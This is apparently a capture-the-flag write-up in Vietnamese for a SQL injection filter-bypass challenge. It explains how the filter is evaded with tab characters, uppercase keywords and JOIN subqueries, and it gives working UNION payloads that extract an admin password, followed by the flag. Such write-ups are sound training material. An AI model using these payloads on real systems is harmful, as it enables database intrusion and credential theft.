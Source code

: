 ```diff
@@Web-Server Challenges @@
```

## SQL injection - Filter bypass [80 Points]

* Mô tả ngắn gọn: Chúng ta sẽ inject vào tham số id ở đây

  ![11](img/11.jpg)

* Các ký tự bị filter và cách bypass như sau:

  * **Whitespace** = > thay thế bằng **%09** (tab)
  * **select** = > thay thế bằng **SELECT**
  * **union** = > thay thế bằng **UNION**
  * **join** = >  thay thế bằng **JOIN**
  * **select  1,2 (filter dấu , )** = > thay thế bằng **(SELECT 1) AS A JOIN (SELECT 2) AS B** (Nếu không có alias cho sub-query sẽ bị lỗi *Every derived table must have its own alias*)
  * **where** = > Thay thế bằng **limit** và **offset** 

* Ta có được hint từ source như sau

  ![11-1](img/11-1.jpg)

* Vậy là bảng có 4 cột, payload của ta sẽ có dạng như sau

  ```sql
  0 union select * from (select 1) as A join (select 2) as B join (select 3) as C join (select 4) as D
  ```

* Thay thế để nó bypass được filter thì payload trở thành như sau

  ```sql
  0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
  ```

* Kết quả thu được

  ![11-2](img/11-2.jpg)

* Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

  * Payload: 

    ```sql
    0%09UNION%09SELECT%09*%09FROM%09(SELECT%091)%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093)%09AS%09C%09JOIN%09(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%09)%09AS%09D
    ```

  * Result:

    ![11-3](img/11-3.jpg)

  * ```diff
    -- Flag: KLfgyTIJbdhursqli
    ```
